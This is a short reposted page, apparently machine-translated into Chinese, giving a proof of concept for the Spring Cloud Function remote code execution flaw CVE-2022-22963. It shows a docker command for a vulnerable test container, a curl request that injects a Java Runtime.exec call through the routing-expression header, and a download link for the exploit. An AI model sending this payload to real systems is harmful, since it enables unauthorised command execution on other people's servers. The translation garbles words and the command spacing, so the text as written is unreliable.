 # CVE-2022-22963:PoC Spring Java Framework 0 天远程代码执行漏洞

> 原文：<https://kalilinuxtutorials.com/cve-2022-22963/>

[![](img//3583c8a8d06246bf313298f07ea15db2.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiAQDgEntDuPal05FKKW-I-Gb1K0FT3fzQYo2tE0-3j6ui6XTCeVuhvcdxjbxhdz4RjW61nSaEfjVgRrg-UTUEkFK_n0m5YNzTKwnpgC3rpwi0FaHyC6aEAWLtI8-ZJCK-phlYKTlsxv5zlyaxj4ADprZkP7lWHAOPlxnjCSiEK7sWMZBCrI7cS2og9/s728/download%20(2).png)

**CVE-2022-22963** 将运行易受攻击的 SpringBoot 应用程序运行此 docker 容器，将其暴露于端口 8080。示例:

**码头运行-it-d-p 8080:8080 bobcheat/springboot-public**

## 剥削

卷曲命令:

**curl-I-s-k-X $ ' POST '-H $ ' Host:192 . 168 . 1 . 2:8080 '-H $ ' spring . cloud . function . routing-expression:T(Java . lang . runtime)。getRuntime()。exec(\ " touch/tmp/test ")'–data-binary $ ' exploit _ POC ' $ ' http://192 . 168 . 1 . 2:8080/function router '**

或者使用 Burp 套件:

![](img//2c9b5b2be2567a14418f984d3f691d0d.png)[**Download**](https://github.com/darryk10/CVE-2022-22963)